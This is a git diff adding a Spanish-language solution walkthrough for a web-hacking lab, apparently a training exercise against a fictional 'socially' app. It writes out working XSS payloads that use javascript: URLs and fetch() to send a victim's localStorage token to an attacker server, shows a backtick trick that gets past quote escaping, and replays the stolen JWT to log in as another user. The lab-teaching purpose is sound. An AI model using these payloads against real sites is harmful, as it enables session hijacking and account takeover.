

Add files via upload

diff --git a/Solutions/README.es.md b/Solutions/README.es.md
@@ -65,24 +65,81 @@ http://whp-socially/?next=j%09avascript:print()
 
 El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.
 
-Pero antes, necesitamos identificar cómo se almacena la sesión del usuario. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".
+Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".
 
-![](img/localStoragetoken.png)
+![](localStoragetoken.png)
 
-En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token de la sesión del usuario desde el almacenamiento local del navegador.
+En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.
 
 En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.
 
-Vamos a intentar robar la sesión del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:
+Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:
 
-    sudo python3 -m http.server 80
+    python3 -m http.server 80
 
-![](img/pythonhttpserver.png)
+![](pythonhttpserver.png)
 
 Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".
 
-![](img/ifconfig.png)
+![](ifconfig.png)
 
-Con esta información, podemos crear un payload que utiliza la función "fetch()" para enviar el token de sesión al servidor de atacante.
+Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:
+
+```
+http://whp-socially/?next=j%09avascript:fetch(%27http://172.18.0.1/%27%2blocalStorage.getItem(%27token%27))
+```
+
+**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.
+
+Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.
+
+![](blockedFetch.png)
+
+Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.
+
+![](blockedFetchRepeater.png)
+
+El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.
+
+Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.
+
+![](checkingQuoteChars.png)
+
+En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:
+
+```
+http://whp-socially/?next=j%09avascript:fetch(`http://172.18.0.1/`%2blocalStorage.getItem(`token`))
+```
+
+Si probamos el enlace, vemos que la petición llega al servidor de atacante.
+
+![](requestReceived.png)
+
+Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.
+
+![](exploitServer.png)
+
+Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que el token llega correctamente al servidor del atacante.
+
+![](tokenReceived.png)
+
+Ahora, podemos utilizar el token para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:
+
+    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')
+
+**Importante:** Hay que reemplazar \<FIRMA\> por la firma del token que hemos obtenido. Además, para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código.
+
+![](localStoragesetItem.png)
+
+Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".
+
+![](loggedinasares.png)
+
+</details>
+
+## Etapa 2: Acceder como admin
+
+<details>
+<summary>Mostrar</summary>
 
 </details>
